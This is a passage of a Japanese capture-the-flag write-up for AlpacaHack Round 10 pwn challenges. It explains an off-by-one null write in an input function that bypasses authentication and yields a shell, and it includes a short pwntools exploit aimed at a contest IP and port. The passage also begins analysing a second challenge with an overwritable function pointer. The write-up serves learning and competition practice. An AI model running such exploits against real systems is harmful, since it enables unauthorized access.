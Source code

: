 ```yaml
---
layout: page
title: AlpacaHack Round 10
parent: CTF Writeups
nav_order: 8
---
```


AlpacaHack Round 10(Pwn) に参加してきました。
競技中は 3 問、終了後に残りの 1 問を解いたので解説していきます。

# Oyster

ユーザ名とパスワードを入力し、正解するとフラグがもらえます。パスワードはわかりません。

脆弱性はここ

```c
void getstr(const char *s, char *buf, size_t len) {
  /* Get a line of input */
  printf("%s", s);
  if (fgets(buf, len, stdin) == NULL)
    exit(1);

  /* Remove trailing newline */
  buf[strlen(buf)-1] = '\0';
}
```

長さ 0 の入力を与えると、`buf[-1]` に 0 を書き込みます。問題では、ここに認証が成功したかどうかのフラグが格納されており、壊すことでシェルが降ってきます。

```python
p = remote("34.170.146.252", 44367)
p.sendlineafter(b"Username: ", b"root")
p.sendlineafter(b"Password: ", b"\x00")
p.interactive()
```

# kangaroo

メッセージを格納する配列と関数ポインタがグローバルに隣接して配置されています。
Partial RELRO かつ、no PIE です。

```c
#define SLOT 8
#define SIZE 0x48

char g_messages[SLOT*SIZE];
void (*fn_clear)(void*, size_t);
```

入出力は次の関数でバリデーションされます。

